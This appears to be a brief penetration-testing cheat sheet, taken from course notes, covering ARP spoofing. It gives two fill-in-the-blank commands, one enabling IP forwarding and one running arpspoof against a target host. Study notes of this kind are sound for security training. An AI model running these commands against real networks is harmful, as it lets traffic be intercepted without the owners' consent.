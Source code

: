 # Network Based Attacks

******************************************************************************
Items inside [SQUARE-BRACKETS] indicate changeable (fill in the blank) fields.  
Note: Bracket characters themselves [ ] require removal. See examples.
******************************************************************************

## Arp Spoofing

```
echo 1 > /proc/sys/net/ipv4/ip_forward
```
```
arpspoof -i [INTERFACE] -t [TARGET] [HOST-TO-INTERCEPT-PACKETS-FOR]
```

***********************************************************************

### References
Penetration Tester Student v2 by INE  
https://my.ine.com/CyberSecurity/learning-paths/61f88d91-79ff-4d8f-af68-873883dbbd8c/penetration-testing-student-v2